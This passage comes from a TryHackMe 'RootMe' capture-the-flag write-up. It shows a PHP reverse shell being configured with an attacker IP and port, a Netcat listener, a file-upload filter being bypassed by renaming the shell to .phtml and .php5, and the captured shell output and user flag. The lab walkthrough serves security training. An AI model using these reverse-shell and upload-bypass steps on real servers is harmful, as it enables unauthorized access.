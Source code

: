 ```bash
┌──(kali㉿kali)-[~/php-reverse-shell]
└─$ sudo gedit php-reverse-shell.php 
```
11. We'll change the value in the $ip variable to our attacking machine's IP address and the value of the $port variable to the port that we'll use for the Netcat listener that we'll set up to listen for any incoming connection

![](https://github.com/KnowCybersecurity/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/THM%20-%20RootMe/Setting%20Up%20PHP%20Reverse%20Shell.png)
13. `CTRL + S` to the save the changes we've made to the php-reverse-shell.php file
14. `nc -lvnp {PORT NUMBER}` to open up a Netcat listener on the specified port
```bash
┌──(kali㉿kali)-[~/php-reverse-shell]
└─$ nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
14. Attempting to upload the PHP file displays an "Error sending the file!" message

![](https://github.com/KnowCybersecurity/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/THM%20-%20RootMe/PHP%20Not%20Permitted.png)
16. Since this is a PHP reverse shell, we can create copies of this PHP reverse shell with these different PHP extensions: **.phps**, **.phtml**, **.php3**, **.php4**, and **.php5**

`cp php-reverse-shell.php php-reverse-shell.phtml`

`cp php-reverse-shell.php php-reverse-shell.php3`

`cp php-reverse-shell.php php-reverse-shell.php4`

`cp php-reverse-shell.php php-reverse-shell.php5`

`cp php-reverse-shell.php php-reverse-shell.phps`

16. `firefox http://{TARGET IP}/uploads` to see the files that we managed to successfully upload onto the target system
  
![](https://github.com/KnowCybersecurity/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/THM%20-%20RootMe/Uploads%20Directory.png)
18. Although we managed to successfully upload four out of the five different PHP versions, only two of them (**.phtml** and **.php5**) are able to be executed and connect back to our Netcat listener without any problem
19. `whoami` to see who we managed to connect to the server as
```bash
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.53.28 50572 received!
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:48:56 up  1:38,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
19. `find / -type f -name user.txt 2>/dev/null` to search for the **user.txt** file in the entire file system ("/") and display the path of any matching files while suppressing any error messages that may occur during the search
20. `cat {USER.TXT FILE PATH}` to display contents of the user.txt file on the terminal
```bash
$ find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
```
```bash
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```
